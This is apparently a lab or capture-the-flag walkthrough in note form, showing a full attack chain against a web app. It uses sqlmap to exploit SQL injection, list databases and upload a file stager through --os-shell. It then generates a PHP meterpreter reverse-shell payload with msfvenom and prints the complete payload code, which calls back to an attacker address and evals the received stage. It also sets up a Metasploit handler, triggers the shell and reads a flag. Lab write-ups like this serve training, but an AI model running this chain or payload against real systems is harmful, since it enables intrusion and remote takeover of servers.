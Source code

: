 
## SQL Injection
https://www.hackingarticles.in/shell-uploading-in-web-server-using-sqlmap/

- Copy the following response as save it as **r.txt**.
```
GET /api.php?documentid=1&apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD HTTP/1.1
Host: <MACHINE IP>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=uafomq8a14mf4lkb7pktbrgt69
Connection: close
Upgrade-Insecure-Requests: 1
```

- Make sure you change the host IP address before saving it.

### Get Databases
- Launch the sqlmap with the following command.
```
sqlmap -r r.txt --dbs --batch
```

> available databases [5]:
> [*] information_schema
> [*] myfirstwebsite
> [*] mysql
> [*] performance_schema
> [*] sys


### Create a SQL upload page

```
$ sqlmap -r r.txt -D myfirstwebsite --os-shell
```

Select PHP (option 4), ‘no’ option and then brute-force (option 4).

Which web application language does the web server support?
> [1] ASP
> [2] ASPX
> [3] JSP
> [4] PHP (default)
> <span style="background:#ff4d4f">4</span>
do you want sqlmap to further try to provoke the full path disclosure? [Y/n] <span style="background:#ff4d4f">n</span>
[14:53:33] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs, /usr/local/var/www') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> <span style="background:#ff4d4f">4</span>

Use any additional custom directories [Enter for None]:
Enter **/var/www/html** as custom directory.

> [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://10.10.232.223:80/tmpuuuxb.php

### Visit the site
![[uploader.png]]



## Generate a reverse shell using msfvenom

```
$ msfvenom -p php/meterpreter/reverse_tcp lhost=<tunnel IP> lport=4445 -f raw
```

[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1111 bytes

---

```
<?php /**/ error_reporting(0); $ip = '10.8.40.30'; $port = 4445; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();`</font>
```

---

- Copy the above code and save it as shell.php. 

- After that, upload the shell.php using the sqlmap uploader.
	![[shell.png]]


### Metasploit
Open up msfconsole and set the following options:

```
msf> use multi/handler
msf exploit(handler) > set lport 4445
msf exploit(handler) > set lhost tun0
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
msf exploit(handler) > exploit
```

### Trigger the reverse shell
Visit  http://Machine_IP/shell.php


## Meterpreter

[*] Started reverse TCP handler on 10.8.40.30:4445                                  
[*] Sending stage (39927 bytes) to 10.10.136.85                                     
[*] Meterpreter session 1 opened (10.8.40.30:4445 -> 10.10.136.85:59092) at 2024-04-10 13:31:43 -0400                                                                   

meterpreter > shell

`cd ..`
`ls`
`cat flat.txt`

The flag is {FLAG:Webapp:48a5f4bfef44c8e9b34b926051ad35a6}

**Next step:** [[What is the flag in the root directory of router1 FLAG Router1 XXX]]
